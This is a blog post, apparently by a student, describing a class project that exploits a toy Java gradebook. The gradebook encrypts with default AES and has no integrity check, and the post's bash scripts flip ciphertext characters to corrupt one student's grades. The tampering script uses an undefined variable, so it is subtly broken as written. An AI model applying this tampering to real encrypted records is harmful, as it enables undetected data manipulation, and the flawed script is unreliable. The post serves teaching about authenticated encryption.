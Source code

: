 ```yaml
---
title: Exploiting a Security Vulnerability in a Java Program
date: 2024-12-10
last-edited: 2025-7-23
meta-img: /images/vulnerability.jpg
---
```


## Overview

As the final project for a software/network security class I took during my sophomore year, I was given the task of finding security vulnerabilities in a gradebook program developed by my peers. It may be hard to follow this post (most of the source code had to be omitted), but the key lessons here are:

1. Always specify your parameters when encrypting data, do not use defaults!
2. Use some kind of authenticated encryption scheme when you want to detect tampering.

**Disclaimer: This vulnerability was found in a "toy" Java program, and is simply an example of poor programming practices. Do not try to exploit a program without explicit permission from the developer(s).**


## Gradebook Implementation

### Gradebook Encryption and Decryption

```java
private byte[] encryptData(String data, String keyString) throws IOException {
    try {
      byte[] keyBytes = Base64.getDecoder().decode(keyString);
      SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
      Cipher cipher = Cipher.getInstance("AES");
      cipher.init(Cipher.ENCRYPT_MODE, secretKey);
      return cipher.doFinal(data.getBytes(StandardCharsets.UTF_8));
    } catch (Exception e) {
      throw new IOException("Error while encrypting data", e);
    }
  }

  private String decryptData(byte[] encryptedData, String keyString) throws IOException {
    try {
      byte[] keyBytes = Base64.getDecoder().decode(keyString);
      SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
      Cipher cipher = Cipher.getInstance("AES");
      cipher.init(Cipher.DECRYPT_MODE, secretKey);
      byte[] decryptedBytes = cipher.doFinal(encryptedData);
      String decryptedData = new String(decryptedBytes, StandardCharsets.UTF_8);
      return decryptedData;
    } catch (Exception e) {
      throw new IOException("Error while decrypting data", e);
    }
  }
```

### Gradebook Key Generation and Storage

```java
// KEY GENERATION
try {
    KeyGenerator keyGen = KeyGenerator.getInstance("AES");
    keyGen.init(256); // using 256 bits
    SecretKey secretKey = keyGen.generateKey();
    byte[] keyHash = hashKey(secretKey);
    if (keyHash == null) {
	    System.err.println("Failed to hash the key");
	    System.exit(255);
    }

    // Write the hash to the file
    try {
	    String keyHashString = Base64.getEncoder().encodeToString(keyHash);
        System.out.println("Base64 Encoded Hashed Key: " + keyHashString);
        Files.write(Paths.get(filename), (keyHashString + System.lineSeparator()).getBytes());
    } catch (IOException e) {
        System.err.println("Error writing key hash to file!");
	    e.printStackTrace();
	    System.exit(255);
    }

    // Convert key to String for display
    String encodedKey = Base64.getEncoder().encodeToString(secretKey.getEncoded());
    System.out.println("Key is " + encodedKey); // Print encoded key
    } catch (NoSuchAlgorithmException e) {
      System.err.println("Error generating keys!");
      e.printStackTrace();
      System.exit(255);
}
```

## The Vulnerability 

The manner in which hashed key values are handled by the gradebook program is extremely problematic. The hash value is placed at the very beginning of the ciphertext, which means an attacker can easily identify the hash value's location by examining the ciphertext, enabling them to modify the ciphertext without altering the hash value. Additionally, there's no integrity check using the hash value in the encryptData or decryptData functions, so this program fails to detect ciphertext tampering.

### Encrypted Gradebook File

```markdown
YBmzZqZNUyoiLdIOrjIFV6Cy4vyhLV6x2l8wFtkBozo=
l65415fAysfy12+49AtY/cHvdNcjLXERZRr9IUWEnK+ZvlO5H/X1nOh4y5eNDW/Iv+ycb15RbzLkd+DF/g1f5ZKeJNO48yRwVn7kDk3JT6+8vCy1qcTFXfPs9USH/ISUcUlCGRqoRuyRpEIl3qxg2Wo/K0fhkqIb44eTsSTdpvm5vgLyI7HW044dcihU00/av7atB1w6dYKCG7ai4+x/AWB0chxde1Z/hq/Db2GL9rL8aHomCLS5DlzVb+int0gbUE7/FMPS3DbRgqnbHetbzIbh/xKLb/vRj+6r0jt/BQGelZH+dpACZTXIe8Nk5TS9mFNfIBG1tHEpl6aTtI6jPx+eMKforCXXNmjJgcGD6+V6oTFs59UWW2DS1RW+xmTw
```

We can deduce that the first line of the encrypted gradebook is the hashed value of the key.

## The Exploit

Because we can modify the gradebook without being detected, let’s write some shell scripts to automate an attack.

### Creating a new Gradebook

This script will set up the environment for our attack by:

1. Creating a valid gradebook + key pair.
2. Filling the gradebook with valid student information.
3. Encrypting the data and writing it to a file.

```bash
#!/bin/bash


echo ""
echo ""


# Clean any previoulsy built files and make a fresh one
make clean
make

rm mygradebook
./setup -N mygradebook

# Ask the user the input the key generated by the program
echo ""
read -p "Input The Key Printed Above : " key
echo ""
echo "Key is: $key"
echo ""

./gradebookadd -N mygradebook -K $key -AS -FN John -LN Smith
./gradebookadd -N mygradebook -K $key -AS -FN Russell -LN Tyler
./gradebookadd -N mygradebook -K $key -AS -FN Ted -LN Mason


./gradebookadd -N mygradebook -K $key -AA -AN Midterm -P 100 -W 0.25
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN John -LN Smith -G 95
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN Russell -LN Tyler -G 80
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN Ted -LN Mason -G 90

./gradebookadd -N mygradebook -K $key -AA -AN Final -P 200 -W 0.5
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN John -LN Smith -G 180
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN Russell -LN Tyler -G 190
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN Ted -LN Mason -G 195

./gradebookadd -N mygradebook -K $key -AA -AN Project -P 50 -W 0.25
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN John -LN Smith -G 48
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN Russell -LN Tyler -G 49
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN Ted -LN Mason -G 50


```

### Modifying the Gradebook

This script will initiate the attack by changing the 189th and 190th characters on the second line of the encrypted gradebook file to zeros.

```bash
#!/bin/bash

path="mygradebook"

line=2
position1=189
position2=190

# Substituting characters at positions 189 and 190 to corrupt assignment data.
# Any character substitution at positions 185 to 192 will result in Ted's
# final and midterm assignments being corrupted, so we are arbitrarily choosing
# two of these locations to ensure a successful attack.
sed -i "${line_number}s/./0/${position1}" "$path"
sed -i "${line_number}s/./0/${position2}" "$path"

echo ""
echo "Gradebook Exploited. Ted is now failing."
echo ""

```

### Displaying the Gradebook

This script will use the key to display the gradebook before and after the exploit.

```bash
#!/bin/bash

echo ""
read -p "Input The Key : " key
echo ""
echo "Key is: $key"
echo ""

echo "Grades of midterm:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Midterm
echo ""

echo "Grades of project:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Project
echo ""

echo "Grades of final:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Final
echo ""

echo "Final grades:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PF -G
echo ""

```

## The Result

This attack works because the gradebook program does not authenticate gradebook files properly. In the encryptData function, gradebooks are encrypted using AES without a specified CBC mode. The implementation does not explicitly include parameters for an AEAD mode like GCM, so we know that the encryption does not provide authenticity or integrity by default. Below are some screenshots of the exploit in action.

![Constructing the Gradebook](/images/gradebook-setup.png)

Notice how Ted has the best final grade before the exploit is executed.

![The Original Gradebook](/images/gradebook-initial.png)

Notice how Ted has a failing grade after the gradebook is modified.

![The Exploited Gradebook](/images/gradebook-exploit.png)

